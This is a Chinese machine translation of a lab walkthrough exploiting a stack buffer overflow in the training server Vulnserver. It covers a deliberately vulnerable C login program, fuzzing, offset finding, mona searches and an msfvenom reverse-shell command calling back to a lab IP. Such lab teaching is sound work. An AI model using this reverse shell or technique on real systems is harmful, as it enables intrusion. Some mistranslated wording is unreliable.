# 基于堆栈的缓冲区溢出实用程序(Vulnserver)

> 原文：<https://infosecwriteups.com/stack-based-buffer-overflow-practical-for-windows-vulnserver-8d2be7321af5?source=collection_archive---------1----------------------->

**shams her Khan 利用 TRUN 命令攻击 vulnserver 缓冲区溢出**

缓冲区是在数据从一个位置传输到另一个位置时临时保存数据的内存存储区域。当数据量超过内存缓冲区的存储容量时，就会发生缓冲区溢出。因此，试图将数据写入缓冲区的程序会覆盖相邻的内存位置。



图片来源:【https://www.hackingtutorials.org 

这是一个严重的漏洞，让别人访问您的重要内存位置。黑客可以插入他的恶意脚本并访问机器。这里有一张图片显示了一个堆栈的位置，这将是剥削的地方。堆就像一个自由浮动的内存区域。



图片来源:谷歌

现在让我们试着理解堆栈层次结构。堆栈层次结构有扩展堆栈指针(ESP)、缓冲空间、扩展基址指针(EBP)和扩展指令指针(EIP)。

ESP 持有栈顶。它指向堆栈上最近推入的值。堆栈缓冲区是在计算机内存中创建的临时位置，用于从堆栈中存储和检索数据。EBP 是当前堆栈帧的基指针。EIP 是指令指针。它指向下一条要执行的指令的第一个字节(保存其地址)。

**栈**

堆栈:一种后进先出的数据结构，被计算机广泛用于内存管理等。

内存中有一堆寄存器，但我们只关心 EIP、EBP 和 ESP。

EBP:这是一个堆栈指针，指向堆栈的底部。

ESP:是一个指向栈顶的栈指针。



EIP:它包含下一条要执行的指令的地址



想象一下，如果我们将一串字符发送到缓冲区中。当它到达末尾时，它应该停止接受字符。但是如果这个角色开始改写 EBP 和 EIP 呢？这就是缓冲区溢出攻击发生的地方。如果我们能进入 EIP，我们就可以插入恶意脚本来控制电脑。

**让我们来看看与堆栈相关的一些要点:**

堆栈从较高的内存填充到较低的内存。
在堆栈中，所有的变量都是相对于 EBP 来访问的。在一个程序中，每个函数都有自己的栈。
所有内容均引用自 EBP 登记簿。

在 32 位架构中，内存堆栈有 4 个主要组件

扩展堆栈指针( **ESP** )
缓冲空间
扩展基址指针( **EBP** )
扩展指令指针( **EIP** ) /返回地址

# 定义:

1.  EIP = > 扩展指令指针(EIP)是一个寄存器，包含程序或命令的下一条指令的地址。
2.  **ESP= >**
3.  **JMP = >** 跳转(JMP)是一条修改执行流程的指令，您指定的操作数将包含跳转到的地址。
4.  **\x41，\x42，\ x43 =>**A、B、c 的十六进制值，对于这个练习来说，使用十六进制 vs ascii 并没有什么好处，这只是我个人的喜好。



现在，我们只关心“缓冲空间”和“EIP”。

在编程语言中，缓冲空间被用作内存的存储区域。出于安全原因，放入缓冲空间的信息永远不应该传出缓冲空间



在上图中，假设有许多 A(0x 41)被发送到缓冲区空间，但已被正确清理。A 没有移动到缓冲空间之外，因此没有发生缓冲区溢出。

现在，看看缓冲区溢出-



在上图中，发送到缓冲区空间的 A(0x 41)的数量已经超出缓冲区空间，并且已经到达 EIP。

如果攻击者能够控制 EIP，他或她就可以使用指针指向某些恶意代码并危及系统安全。我们将演示如何去做。

**缓冲区溢出攻击的类型**

基于堆栈的缓冲区溢出更为常见，它利用只存在于函数执行期间的堆栈内存。

基于堆的攻击更难实施，并且涉及淹没为程序分配的超出当前运行时操作使用的内存的内存空间。

**哪些编程语言比较容易受到攻击？**

C 和 C++是两种非常容易受到缓冲区溢出攻击的语言，因为它们没有内置的保护措施来防止覆盖或访问内存中的数据。Mac OSX、Windows 和 Linux 都使用 C 和 C++编写的代码。

PERL、Java、JavaScript 和 C#等语言使用内置的安全机制，将缓冲区溢出的可能性降至最低。

**如何防止缓冲区溢出**

开发人员可以通过代码中的安全措施或使用提供内置保护的语言来防止缓冲区溢出漏洞。

此外，现代操作系统有运行时保护。三种常见的保护措施是:

**地址空间随机化(ASLR)** —随机移动数据区的地址空间位置。通常，缓冲区溢出攻击需要知道可执行代码的位置，随机化地址空间实际上不可能做到这一点。

**数据执行保护** —将某些内存区域标记为不可执行或可执行，这可以阻止攻击者在不可执行区域运行代码。

**结构化异常处理程序覆盖保护(SEHOP)** —帮助阻止恶意代码攻击结构化异常处理(SEH)，这是一个用于管理硬件和软件异常的内置系统。因此，它防止攻击者能够利用 SEH 重写利用技术。在功能级别，使用基于堆栈的缓冲区溢出来覆盖存储在线程堆栈上的异常注册记录，从而实现 SEH 覆盖。

# 让我们举一个简单 C 程序如何处理缓冲区溢出的例子

```
#include<stdio.h>
#include<string.h>int main(void)
{
    char buff[15];
    int pass = 0;printf("\n Enter the password : \n");
    gets(buff);if(strcmp(buff, "mrsam"))
    {
        printf("\n Wrong Password \n");
    }
    else
    {
        printf("\n Correct Password \n");
        pass = 1;
    }if(pass)
    {
       /* Now Give root or admin rights to user*/
        printf("\n Root privileges given to the user \n");
        char command[50];
        strcpy( command, "ls -l" );
        system(command);
    }return 0;
}
```

这是一个简单的登录系统程序，这个程序的正确密码是 **mrsam**

编译您的代码

```
gcc program.c -o program
```



正如你可以给正确的密码= **mrsam** 它将运行" **ls -l** "

命令

现在用错误的密码再次运行这个程序



当我输入错误的密码时，程序没有运行“ **ls -l** 命令

现在再次运行这个程序，错误的密码多于字符



在上面的例子中，即使输入了一个错误的密码，程序也能按照你给出的正确密码运行。

上面的输出背后有一个逻辑。攻击者所做的是，他/她提供了一个长度大于缓冲区所能容纳的长度的输入，在特定长度的输入时，缓冲区发生溢出，从而覆盖了整数“pass”的内存。因此，尽管密码错误，但“pass”的值变为非零，因此攻击者获得了超级用户权限。

## Vulnserver 是什么？

Vulnserver 是为学习软件开发而创建的。它是一个基于 Windows 的多线程 TCP 服务器，侦听端口 9999(默认)上的客户端连接，并允许用户运行许多不同的命令，这些命令容易受到各种类型的缓冲区溢出攻击。源代码可以在[这里](https://github.com/stephenbradshaw/vulnserver)找到。

[](https://github.com/stephenbradshaw/vulnserver) [## stephenbradshaw/vulnserver

### 查看我在 http://thegreycorner.com/的博客，了解更多信息和该软件的更新。Vulnserver 是一个…

github.com](https://github.com/stephenbradshaw/vulnserver) [](https://www.immunityinc.com/products/debugger/) [## 抗干扰调试器

### 下载此处下载免疫调试器！概述具有专门为安全设计的功能的调试器…

www.immunityinc.com](https://www.immunityinc.com/products/debugger/) 

**使用的工具/操作系统:**

```
Attacker Machine : Kali Linux Rolling
Victim Host : Windows 7 ultimate 32 bit
Vulnserver application ([github](https://github.com/stephenbradshaw/vulnserver))
Immunity Debugger v1.85
```

**注意:-**

```
Attacker’s IP : 192.168.43.73
Victim’s IP : 192.168.43.112
Vulnerable port : 9999 ( Vulnserver )
Vulnerable parameter : TRUN
```

**简单步骤**

第一部分

1.  模糊服务参数并获取崩溃字节
2.  生成模式
3.  在(EIP)的帮助下找到字节崩溃的正确偏移量

**第二部分**

1.  用 mona.py 查找坏字符，并用 mona.py 比较坏字符串
2.  使用 mona.py 查找回邮地址(JMP ESP)

**第三部分**

1.  设置断点以验证返回地址是否正确
2.  在 msfvenom 的帮助下创建反向外壳
3.  向脚本中添加 NOP
4.  获取外壳

右键单击 vulnserver 默认情况下以管理员身份运行 vulnserver 在端口 9999 上运行



因此，您可以看到上面的图片 vulnserver 正在端口 9999 上运行

# 起毛

测试缓冲区溢出的第一步是模糊化。
Fuzzing 允许我们在不断增长的迭代中向易受攻击的程序(在我们的例子中是 Vulnserver)发送字节的数据，以溢出缓冲区空间并覆盖 EIP。



从这里我们可以看到可用的命令。这是事情变得有趣的地方，我们将模糊一些命令来找出它崩溃的地方。我将使用 TRUN 命令，尽管任何命令都是可行的测试主题



所以这是手动模糊化，要花很长时间才能使程序崩溃

所以这里我们将使用 Python 脚本

现在，让我们在 Linux 机器[**fuzzing . py**](https://github.com/shamsherkhan852/Buffer-Overflow-tools)**上编写一个简单的 Python fuzzing 脚本**

****

**需要注意的是，s.connect()中的 IP 将属于运行 Vulnserver 的 Windows 机器，默认情况下它运行在端口 9999 上，我们攻击的漏洞是通过“TRUN”命令。**

**现在，在免疫调试器中点击“文件”并选择 vulnserver.exe。**

**单击播放按钮运行 vulnserver.exe 程序。**

****************

**等到程序崩溃，你会在免疫调试器的右下角看到“暂停”状态。**

**在我的例子中，vulnserver 在 5900 字节后崩溃。此外，并非所有寄存器都被“A”(0x 41)覆盖，除非程序崩溃，否则这不是问题。我们现在有了一个发送数据使程序崩溃的总体思路。见下图**

****

**我们下一步需要做的是计算出 EIP 的确切位置(以字节为单位),并试图控制它。**

# **寻找偏移**

**现在我们知道了如何覆盖 EIP，并且覆盖发生在 1 到 5900 字节之间。**

**我们使用两个 Ruby 工具:“模式创建”和“模式偏移”来找到覆盖的确切位置。**

**Pattern Create 允许我们根据指定的字节数生成一定数量的字节。然后，我们可以将这些字节发送到 Vulnserver，而不是 A 的，并尝试找到我们覆盖 EIP 的确切位置。图案偏移将帮助我们很快确定覆盖的位置。**

**在 Kali 中，默认情况下，这些工具位于/usr/share/metasploit-framework/tools/exploit 文件夹中。**

****

**我们将编写一个新的 **offest-value.py** 并创建一个包含上面生成的字符串的新变量‘shellcode’。**

**[**下载 offset_value.py**](https://github.com/shamsherkhan852/Buffer-Overflow-tools)**

****

**我们只需要发送这个代码一次。**

**现在，在免疫调试器中点击“文件”并选择 vulnserver.exe。**

**单击播放按钮运行 vulnserver.exe 程序。**

********

**观察 **EIP** 寄存器-’**386 f 4337**。这个值实际上是我们使用模式创建工具生成的脚本的一部分。**

**为了找出位置，我们将使用模式偏移工具。**

****

**好了，我们现在知道了 EIP 开始的确切位置，我们现在可以试着控制 EIP，这对我们的开发非常有用。**

**我们现在将继续覆盖 EIP。**

**覆盖 EIP**

**现在我们知道 EIP 从 2003 字节开始，我们可以修改代码来确认这一点。**

**这将是一种“试错”和“概念验证”的方式。**

**我们将首先发送 2003 个“A ”,然后发送 4 个“B ”(因为 EIP 的大小是 4 字节)。**

**我希望你们都明白我们在做什么。请你们都有点耐心，你们会度过难关的。**

**2003 年的飓风将会到达(亲吻)EIP，但是不会覆盖 EIP，但是飓风将会覆盖 EIP。**

**我们只是在测试它的射程，以确保万无一失。就是这样。**

**编写新的 python 脚本:-[**overwrite IP . py**](https://github.com/shamsherkhan852/Buffer-Overflow-tools)**

****

**现在，在免疫调试器中点击“文件”并选择 vulnserver.exe。**

**单击播放按钮运行 vulnserver.exe 程序。**

********

**注意，我们的 EIP 的值为‘42424242 ’,这正是我们想要的。**

**现在我们将找出哪些字符被 Vulnserver 应用程序视为“坏字符”。**

**默认情况下，空字节(x00)总是被认为是坏字符，因为它会在执行时截断外壳代码。**

****寻找坏人****

**一些字符会导致漏洞开发中的问题。我们必须通过 Vulnserver 程序运行每个字节(值为 0–255，因为 1 字节的范围是 0–255 ),以查看是否有任何字符导致问题。**

**我们已经知道，缺省情况下，空字节(x00)总是被认为是坏字符。**

**要查找 Vulnserver 中的坏字符，请在我们的代码中添加一个额外的变量“badchars ”,它包含除\x00 之外的每个十六进制字符的列表。**

**让我们生成 Badchars**

****

**请随意在您的代码中使用上面的代码片段。**

**复制 OverwriteEIP.py 进行备份，并创建一个新文件 badchars.py。**

**下载 [**badchars.py**](https://github.com/shamsherkhan852/Buffer-Overflow-tools)**

****

**现在，在免疫调试器中点击“文件”并选择 vulnserver.exe。**

**单击播放按钮运行 vulnserver.exe 程序。**

********

**右键单击 ESP 寄存器并选择“转储跟随”**

********

**如果一个坏角色出现了，它会立刻显得格格不入。但是在我们的例子中，Vulnserver 应用程序中没有坏字符。**

**观察字符的顺序有多整齐和完美。它们结束于 0xFF。**

**vulnserver.exe 的优点是只有空字节(0x00)是坏字符。**

****寻找合适的模块。****

**找到正确的模块意味着我们需要找到 Vulnserver 中没有任何内存保护的部分。我们将使用“mona 模块”来找到它。**

**[](https://github.com/corelan/mona) [## 科勒兰/莫娜

### 是一个 python 脚本，可以用来自动化和加速特定的搜索…

github.com](https://github.com/corelan/mona) 

下载 mona.py 并将该文件粘贴到该路径



以管理员身份重新打开 Vulnserver 和免疫调试器。不玩服务器

在底部豁免搜索栏中输入-

**！梦娜模块**



会出现一个表格，上面的奇怪数字都是绿色的。

在桌子对面寻找“错误”。这意味着该模块中没有内存保护。

**essfunc.dll**作为 Vulnserver 的一部分运行，没有内存保护。把它记下来。

现在我们将找到 JMP ESP 的操作码等价物。我们使用 JMP ESP，因为我们的 EIP 将指向 JMP ESP 位置，这将跳转到我们稍后将注入的恶意外壳代码。

# 寻找有用指令的十六进制代码

Kali Linux 包含一个将汇编语言转换成十六进制代码的实用程序。

在 Kali Linux 中，在终端窗口中执行以下命令:

> `***locate nasm_shell***`



“JMP ESP”指令的十六进制代码是 FFE4。

现在我们将使用这些信息找到指针地址。我们将把这个指针地址放到 EIP 中，指向我们的恶意外壳代码。

在我们的豁免搜索栏中输入-

> **！莫娜 find-s " \ xff \ xe4 "-米 essfunc.dll**

```
where -s  is the byte string to search for, and -m  specifies the module to search in
```

它显示了所有可能的正确模块



我们发现内存中有 9 个位置(重启程序时不会改变地址)保存着“JMP ESP”指令。

这是一个地址列表，我们可以用它作为指针。地址位于左侧，白色。

我们将选择第一个地址- **625011AF** 并将其添加到我们的 Python 脚本 shell.py 中

注 1:根据您运行的 Windows 版本，您的地址可能会有所不同。因此，如果地址不同，不要惊慌！

地址是十六进制的-

**\xaf\x11\x50\x62**

一个一个试(复制首地址=625011af)免疫。点击黑色右箭头>:



粘贴 625011af 和 ok

右键单击 625011AF 断点>切换



现在玩服务器

download[find _ right _ module . py](https://github.com/shamsherkhan852/Buffer-Overflow-tools)



(它显示了我们在 EIP 的复制地址)



如果 EIP 显示我们的复制地址，那么它是正确的模块

**注意 2** :这样看起来会有点怪。这是一个 32 位应用程序。这意味着系统使用 x86 的“小端”架构格式，换句话说，“最低有效字节优先”我们必须在 x86 架构中使用 Little Endian 格式，因为低阶字节存储在内存的最低地址，高阶字节存储在最高地址。

## 正在生成反向外壳有效负载-

```
**sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.43.72 LPORT=1234 EXITFUNC=thread -a x86 --platform windows -b "\x00" -f c**
```



下载[exploit . py](https://github.com/shamsherkhan852/Buffer-Overflow-tools)



根据 TCM——我们必须创建一个名为“exploit”的变量，并将恶意外壳代码放入其中。我们还必须将' **32 * \x90** '添加到 shellcode 变量(32 \x90 字节)中。这是标准做法。0x90 字节也称为 NOP，即无操作。它实际上什么都不做。但是，在开发漏洞时，我们可以将其用作填充。有些情况下，我们的漏洞利用代码会干扰我们的返回地址，无法正常运行。为了避免这种干扰，我们可以在两个项目之间添加一些填充。

在创建有效负载期间提到的同一端口上启动 nc 监听器— 1234。



重新启动 vulnserver(CTRL+F2)和 play server(F9)

在新的终端选项卡中执行 shell.py。



你可以在:
**LinkedIn:-**[https://www.linkedin.com/in/shamsher-khan-651a35162/](https://www.linkedin.com/in/shamsher-khan-651a35162/)
**Twitter:-**[https://twitter.com/shamsherkhannn](https://twitter.com/shamsherkhannn)
**Tryhackme:-**[https://tryhackme.com/p/Shamsher](https://tryhackme.com/p/Shamsher)


如需更多演练，请在出发前继续关注…
…

**点击此处加入电报**
[https://t.me/tryhackme_writeups](https://t.me/tryhackme_writeups)

访问我的其他演练:-

[https](https://shamsher-khan.medium.com/tryhackme-oscp-buffer-overflow-prep-overflow-1-edfaa6c0945e)[://infosecwriteups . com/tryhackme-oscp-buffer-overflow-prep-overflow-1-19e 000482 f27](/tryhackme-oscp-buffer-overflow-prep-overflow-1-19e000482f27)

感谢您花时间阅读我的演练。
如果您觉得有帮助，请点击👏按钮👏(高达 40 倍)并分享
它来帮助其他有类似兴趣的人！+随时欢迎反馈！**